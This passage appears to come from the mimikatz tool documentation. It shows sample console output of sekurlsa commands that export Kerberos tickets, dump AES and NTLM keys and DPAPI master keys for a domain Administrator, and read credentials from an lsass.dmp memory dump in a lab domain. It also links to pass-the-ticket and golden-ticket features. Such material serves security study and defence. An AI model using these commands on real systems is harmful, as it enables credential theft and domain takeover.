 ```
	 [00000000]
	   Start/End/MaxRenew: 11/05/2014 16:47:58 ; 12/05/2014 02:47:58 ; 18/05/2014 16:47:58
	   Service Name (02) : krbtgt ; CHOCOLATE.LOCAL ; @ CHOCOLATE.LOCAL
	   Target Name  (02) : krbtgt ; CHOCOLATE.LOCAL ; @ CHOCOLATE.LOCAL
	   Client Name  (01) : Administrateur ; @ CHOCOLATE.LOCAL ( CHOCOLATE.LOCAL )
	   Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ; 
	   Session Key       : 0x00000012 - aes256_hmac      
	     4b42cce01deffbfb0e67efc18c993bb52601848763aecf322030329cd1882e4c
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2	[...]
	   * Saved to file [0;84173]-2-0-40e10000-Administrateur@krbtgt-CHOCOLATE.LOCAL.kirbi !
```
**See also:**
* Pass-The-Ticket: [kerberos::ptt](module-~-kerberos#ptt)
* Golden Ticket: [kerberos::golden](module-~-kerberos#golden)

## ekeys
```
mimikatz # sekurlsa::ekeys

Authentication Id : 0 ; 541043 (00000000:00084173)
Session           : Interactive from 2
User Name         : Administrateur
Domain            : CHOCOLATE
SID               : S-1-5-21-130452501-2365100805-3685010670-500

         * Username : Administrateur
         * Domain   : CHOCOLATE.LOCAL
         * Password : (null)
         * Key List :
           aes256_hmac       b7268361386090314acce8d9367e55f55865e7ef8e670fbe4262d6c94098a9e9
           rc4_hmac_nt       cc36cf7a8514893efccd332446158b1a
           rc4_hmac_old      cc36cf7a8514893efccd332446158b1a
           rc4_md4           cc36cf7a8514893efccd332446158b1a
           rc4_hmac_nt_exp   cc36cf7a8514893efccd332446158b1a
           rc4_hmac_old_exp  cc36cf7a8514893efccd332446158b1a
```

## dpapi

```
mimikatz # sekurlsa::dpapi

Authentication Id : 0 ; 251812 (00000000:0003d7a4)
Session           : Interactive from 1
User Name         : Administrateur
Domain            : CHOCOLATE
SID               : S-1-5-21-130452501-2365100805-3685010670-500
         [00000000]
         * GUID :       {62f69fd3-0a99-4531-bf94-7442fdf1e411}
         * Time :       01/05/2014 13:12:39
         * Key :        8801bde168af739ab81aa32b79aa0ee4c27cb9c0dc94b6ab0a8516e650b4bdd565110ae1040d3e47add422454d92b307276bebdba7b23b2b2f8005066ede3580
```
## minidump
```
mimikatz # sekurlsa::minidump lsass.dmp
Switch to MINIDUMP : 'lsass.dmp'

mimikatz # sekurlsa::logonpasswords
Opening : 'lsass.dmp' file for minidump...

Authentication Id : 0 ; 88038 (00000000:000157e6)
```